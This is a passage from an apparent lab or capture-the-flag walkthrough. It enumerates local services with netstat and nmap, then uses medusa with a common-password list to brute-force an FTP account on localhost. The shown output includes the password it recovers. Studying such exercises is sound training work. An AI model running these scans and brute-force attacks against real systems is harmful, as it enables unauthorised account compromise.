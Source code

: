 
Nice, we're in, let's look around, it's useful to check open ports and listening services, for this, we can use the following command:

```
netstat -tulpn | grep LISTEN
```

We get this:

```
sshuser@ng-1340293-loginbfservice-amvfj-8678d96dc8-r66vm:~$ netstat -tulpn | grep LISTEN
(No info could be read for "-p": geteuid()=1000 but you should be root.)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::21                   :::*                    LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

We can think that the service running on port 21 is FTP, Nmap is enabled on the machine, let's run a scan to identify the services:

```
sshuser@ng-1340293-loginbfservice-amvfj-8678d96dc8-r66vm:~$ nmap localhost
Starting Nmap 7.80 ( https://nmap.org ) at 2025-02-13 20:35 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00011s latency).
Other addresses for localhost (not scanned): ::1
Not shown: 998 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 0.04 seconds
```

It was ftp indeed, machine also has medusa installed, this can help us brute force the login for ftp, if we check the home directory, we find this:


```
sshuser@ng-1340293-loginbfservice-amvfj-8678d96dc8-r66vm:~$ ls /home
ftpuser  sshuser
```

We got other user `ftpuser`, let's brute force:

```
medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5

sword: 1234567 (11 of 197 complete)
ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: ftpuser (1 of 1, 0 complete) Password: qwerty (12 of 197 complete)
ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: ftpuser (1 of 1, 0 complete) Password: Million2 (13 of 197 complete)
ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: ftpuser (1 of 1, 0 complete) Password: abc123 (14 of 197 complete)
ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: ftpuser (1 of 1, 0 complete) Password: 000000 (15 of 197 complete)
ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: ftpuser (1 of 1, 0 complete) Password: qqww1122 (16 of 197 complete)
ACCOUNT FOUND: [ftp] Host: 127.0.0.1 User: ftpuser Password: qqww1122 [SUCCESS]
ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: ftpuser (1 of 1, 1 complete) Password: 1234 (17 of 197 complete)
```
